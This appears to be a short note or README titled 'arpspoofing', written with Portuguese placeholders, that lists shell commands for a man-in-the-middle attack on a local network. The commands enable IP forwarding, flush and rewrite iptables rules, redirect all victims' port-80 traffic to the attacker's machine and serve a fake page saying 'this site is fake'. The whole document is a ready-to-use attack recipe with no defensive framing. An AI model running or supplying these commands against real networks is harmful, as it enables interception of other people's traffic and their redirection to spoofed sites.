 # arpspoofing

echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -t nat --flush

iptables --zero

iptables -A FORWARD --in-interface ‘nome_interface’ -j ACCEPT

iptables -t nat --append POSTROUTING --out-interface ‘nome_interface’ -j MASQUERADE

iptables -t nat -A PREROUTING -p tcp --dport 80 --jump DNAT --to-destination ‘meuip’

apt-get install apache2

echo “esse site eh falso!!” > /var/www/html/index.html
